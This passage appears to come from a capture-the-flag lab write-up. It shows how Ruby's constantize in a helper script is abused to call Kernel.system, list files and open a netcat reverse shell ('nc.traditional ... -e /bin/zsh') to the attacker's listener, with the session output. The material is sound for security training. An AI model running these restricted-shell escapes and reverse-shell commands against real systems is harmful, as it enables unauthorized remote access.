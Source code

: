 So, the `constantize` prevents "any" ruby code from being executed, it allows unintended classes to be initiate.

**Now, to abuse that, we can use class `Kernel`, class method `exec()`, and argument `<command>`:**
```ruby
test.rb Kernel 'system' "/bin/sh"
```

**This should spawn a sh shell for us:**
```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/sh"     
red-stone-one-carat% 
```

Hmm... Doesn't work.

Let's take a step back.

**If we can execute any OS command from `test.rb`, why not just use that ruby script?**
```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/ls -lah"
total 72K
drwxr-xr-x 4 noraj   noraj   4.0K Jan 12 03:28 .
drwxr-xr-x 4 root    root    4.0K May 17  2021 ..
drwxr-xr-x 2 root    root    4.0K May 17  2021 bin
drwx------ 2 noraj   noraj   4.0K Jan 12 03:28 .cache
-rw-r--r-- 1 vagrant vagrant   36 May 17  2021 .hint.txt
-rw-r--r-- 1 vagrant vagrant   37 May 17  2021 user.txt
-rw-rw-r-- 1 noraj   noraj    42K Jan 12 03:28 .zcompdump.red-stone-one-carat.1398
-rw-r--r-- 1 vagrant vagrant   20 May 17  2021 .zshrc
```

It worked!

**Let's get a reverse shell!**
```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 11:36:07
╰─○ nc -lnvp 443
listening on [any] 443 ...
```

```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/nc.traditional 10.9.0.253 443 -e /bin/sh" 
exec /bin/sh failed : Permission denied
```

Wait, permission denied?

**Let's try `zsh`:**
```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/nc.traditional 10.9.0.253 443 -e /bin/zsh"
```

```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 11:36:10
╰─○ nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.47.251] 52508
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
whoami;hostname;id
noraj
red-stone-one-carat
uid=1001(noraj) gid=1001(noraj) groups=1001(noraj)
```
